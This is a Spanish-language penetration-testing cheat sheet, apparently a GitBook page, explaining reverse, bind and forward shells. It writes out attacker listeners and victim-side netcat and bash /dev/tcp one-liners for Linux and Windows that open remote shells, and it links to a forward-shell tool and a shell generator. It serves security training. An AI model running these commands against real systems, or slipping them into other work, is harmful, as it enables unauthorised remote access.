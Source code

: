 # Shells

## Tipos de Shell

### Reverse Shell

<figure><img src="../../.gitbook/assets/image (10) (1) (3).png" alt=""><figcaption><p>Target to Attacker</p></figcaption></figure>

#### Atacante Linux

{% code overflow="wrap" %}
```bash
nc -lvnp <Port>
```
{% endcode %}

Donde:

* `-l` : Modo escucha
* `-v` : Modo verbose (Retorna Información de la conexión, se puede usar -vvv para mas información en la conexión).&#x20;
* `-n` : Deshabilitar resolución inversa de DNS
* `-p <Port>` : Establece el puerto de escucha

#### Victima Linux

```bash
nc -e /bin/bash <IP> <Port>

# Bash
bash -i >& /dev/tcp/<IP>/<Port> 0>&1
```

#### Víctima Windows

```bash
nc.exe –e cmd.exe <IP> <Port>
```



### Bind Shell

En algunos proyectos donde no puedas establecer un servidor de escucha por que te encuentres por NAT o por Firewall, a veces es conveniente de que la máquina victima esté en modo escucha ofreciendo la shell, a esto se le llama <mark style="color:green;">**Bind shell**</mark> o <mark style="color:green;">**shell directa.**</mark>

<figure><img src="../../.gitbook/assets/image (26) (2).png" alt=""><figcaption></figcaption></figure>

#### Atacante Linux

```bash
nc <IP Target> <Port>
```

#### Víctima Linux

{% code overflow="wrap" %}
```bash
nc -lvnp <Port> -e /bin/bash
```
{% endcode %}

#### Víctima Windows

{% code overflow="wrap" %}
```bash
nc.exe -l -p <Port> -e cmd.exe
```
{% endcode %}

### Forward Shell

Esta técnica se utiliza cuando no se pueden establecer conexiones Reverse o Bind debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO** (**named pipe**), que se utiliza como una especie de “**consola simulada**” interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.



Puedes encontrar casos en los que tienes un RCE (Remote Code Execution) en una aplicación web en una máquina Linux pero debido a reglas Iptables u otro tipo de filtrado no puedes obtener una shell inversa.&#x20;

Esta técnica o tipo de "shell" te permite mantener un shell PTY a través de ese RCE usando tuberías dentro del sistema víctima.&#x20;

{% embed url="https://github.com/IppSec/forward-shell" %}

Sólo necesitas modificar La URL del host vulnerable El prefijo y sufijo de tu payload (si lo hay) La forma en que se envía el payload (¿encabezados? ¿datos? ¿información extra?) Luego, sólo tienes que enviar comandos o incluso utilizar el comando upgrade para obtener un PTY completo (ten en cuenta que las tuberías se leen y escriben con un retardo aproximado de 1,3s).



## Referencias



{% embed url="https://www.revshells.com/" %}
Generador de Revershells
{% endembed %}

{% embed url="https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/" %}
